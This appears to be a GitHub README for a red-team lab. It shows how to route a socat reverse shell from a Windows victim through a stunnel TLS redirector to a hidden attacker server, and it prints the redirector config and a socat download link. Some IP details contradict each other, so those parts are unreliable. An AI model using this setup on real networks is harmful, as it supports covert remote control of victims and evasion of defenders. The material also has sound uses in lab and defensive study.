

# TLS_redirect
## Simple resilient TLS reverse shell architecture

Here I will illustrate how to implement a simple but effective Redteam architecture to serve a reverse shell. Following the diagram:
<br><br>
I set up my ParrotOS VM to perform a TLS redirect to a CentOS server that acts as attacker. Since in a real engagment it is probable that the front end will be <i>burnt</i>, using this simple approach can save the attacker business logic and protect our <i>weapons</i>, making the things a bit harder for the blue teamers buddies :) <br> In this scenario we can expose only the server that acts as redirector with a public IP, of course once the front end is burnt probably even the public IP will suffer the same fate and that's no good since the scarcity of them. Some useful resources to check IP reputation:
- https://ipremoval.sms.symantec.com
- https://www.ip-finder.me/ip-full-list
Eventually we can concetrate our effort in hardening the CentOS server (attacker), in this example I have only put in place a firewall. So recalling the roles of the play we have:
1. Win10Pro machine with AV and firewall in place. The payload will be a simple socat openssl reverse shell
1. Parrot OS machine with Stunnel service that will redirect the incoming TLS connection to...
1. Attacker machine, a CentOS 8 server that will get the reverse shell not encrypted
### LAB configuration

#### Victim machine. 
- IP 192.168.1.6

Download the compiled socat for windows from here: https://github.com/zinzloun/TLS_redirect/raw/main/socat-1.7.3.2-1-x86_64.zip. Unzip the file e move the unzipped folder where you prefer, of course the folder is the position from where we will execute our payload. For convenience I put the folder into the enviroment PATH variable

#### TLS redirector
- Dual homed
  - IP 192.168.17 that acts as public interface
  - IP 10.0.2.5 that acts as internal interface

Here install Stunell and configure to forward the traffic to the attacker machine using netcat. I will skip the part about how to create a self signed certificate, just browse the web. The configuration is self explanatory:
  ```
  sudo apt install stunnell4
  cat /etc/stunnel/stunnel.conf 
  [nc]
  client = no
  accept = 443
  connect = 10.0.2.10:6666
  cert = /etc/stunnel/stunnel.pem
  ```
  Now lunch the service and check it out:
```
  service stunnel4 start 
  netstat -tulpn | grep 443
  tcp        0      0 0.0.0.0:443             0.0.0.0:*               LISTEN      4687/stunnel4       
```
#### The attacker machine
- IP 10.0.2.5

  
